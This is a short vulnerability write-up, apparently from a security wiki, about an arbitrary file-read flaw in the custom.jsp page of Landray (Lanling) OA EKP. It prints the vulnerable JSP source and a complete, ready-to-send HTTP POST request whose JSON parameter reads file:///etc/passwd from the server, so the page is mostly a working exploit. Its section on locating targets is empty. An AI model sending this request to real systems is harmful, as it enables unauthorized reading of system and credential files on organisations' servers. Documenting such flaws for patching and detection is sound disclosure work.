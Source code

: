 # Lanling OA custom.jsp Any file reading vulnerability

## Vulnerability Description

Shenzhen Lanling Software Co., Ltd. Digital OA (EKP) has an arbitrary file reading vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Lan Ling OA</span>

## Network surveying and mapping



## Vulnerability reappears

The file with the vulnerability is custom.jsp

```plain
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="https://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

The request package is

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-2.png)